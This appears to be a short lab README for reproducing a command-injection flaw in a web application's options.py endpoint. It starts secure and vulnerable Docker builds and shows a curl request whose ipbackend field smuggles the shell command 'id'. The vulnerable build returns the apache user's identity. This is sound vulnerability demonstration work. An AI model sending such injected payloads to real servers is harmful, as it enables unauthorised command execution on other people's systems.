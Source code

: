 # secure instance
```bash
docker compose -f docker-compose-safe.yml up -d
```
Execute `curl -X POST "https://localhost/app/options.py" --data "alert_consumer=1&ipbackend=\";id+#" --insecure` command and you will receive a http redirect response like `<title>Redirecting...</title>`

# vulnerable instance
```bash
docker compose -f docker-compose.yml up -d
```
Execute `curl -X POST "https://localhost/app/options.py" --data "alert_consumer=1&ipbackend=\";id+#" --insecure` command and you will receive a similar response like `uid=48(apache) gid=48(apache) groups=48(apache)<br>`
